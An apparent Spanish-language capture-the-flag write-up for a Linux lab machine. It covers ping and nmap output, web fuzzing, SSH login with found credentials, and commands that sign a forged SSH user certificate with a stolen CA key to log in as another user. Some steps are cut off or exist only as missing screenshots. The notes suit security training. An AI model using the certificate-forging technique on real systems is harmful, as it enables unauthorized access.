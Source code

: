 #medium #Linux #tecnicas 
### Ping

```python
ping -c 1 10.10.11.27
PING 10.10.11.27 (10.10.11.27) 56(84) bytes of data.
64 bytes from 10.10.11.27: icmp_seq=1 ttl=63 time=149 ms

--- 10.10.11.27 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 149.269/149.269/149.269/0.000 ms
```

### TTL = 63 Linux

### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 16:12 EDT
Nmap scan report for 10.10.11.27
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://itrc.ssg.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.39 seconds
```

### Enumeración del puerto 80
primero agregamos la dirección http://itrc.ssg.htb/ a nuestro archivo /etc/hosts. la web nos muestra dos rutas. `Register` `Login`
![[Pasted image 20240807161601.png]]

`Resgister`
después de crear nuestro propio usuario podemos ingresar a la web con las credenciales
![[Pasted image 20240807163716.png]]

### Enumeración con wfuzz
haciendo fuzzing podemos encontrar 3 dominios `assets, uploads, api` 
![[Pasted image 20240807164442.png]]

`fuzzing para archivos pgp,txt,html`
encontramos `index.php` y `admin.php` que son muy interesantes
![[Pasted image 20240807173429.png]]

`index.php?page=admin`
aqui encontramos mas información. en los usuarios previos SSH nos dice que contactemos a `zzinter` un posible usuario. existe un archivo en 
![[Pasted image 20240807173522.png]]


`conexión`
con las credenciales encontradas podemos obtener una conexión vía ssh
![[Pasted image 20240807181359.png]]

`id_rsa`
podemos ver en el directorio lo que parece ser una id_rsa tanto la privada como la publica
![[Pasted image 20240807181911.png]]


`sshkeygen`
debemos crear un directorio temporal en la carpeta `/tmp` debemos crear un nuevo par de claves `id_rsa` y también demos traernos a esta ruta las keys que vimos anteriormente. 

```python
ssh-keygen -t rsa -b 2048 -f id_rsa

ssh-keygen -s ca-itrc -I user-cert -n zzinter -V +52w -z 12345 id_rsa.pub

ssh -o CertificateFile=id_rsa-cert.pub -i id_rsa zzinter@localhost

mv ca-it
```

![[Pasted image 20240807184214.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
